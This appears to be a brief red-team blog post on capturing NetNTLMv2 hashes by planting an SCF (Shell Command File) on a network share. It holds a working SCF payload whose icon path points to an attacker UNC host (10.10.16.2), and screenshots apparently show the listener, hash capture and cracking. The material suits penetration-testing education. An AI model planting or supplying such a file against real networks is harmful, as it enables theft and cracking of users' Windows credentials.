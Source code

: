 ```yaml
---
title:  "using-a-scf-file-to-gather-hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.
The code below can be placed inside a text file which then needs to be planted into a network share.

```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 

<img src="/img/fci/hash.PNG" alt="Getting-gz" width="800" height="200"> 


<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 

  
                       
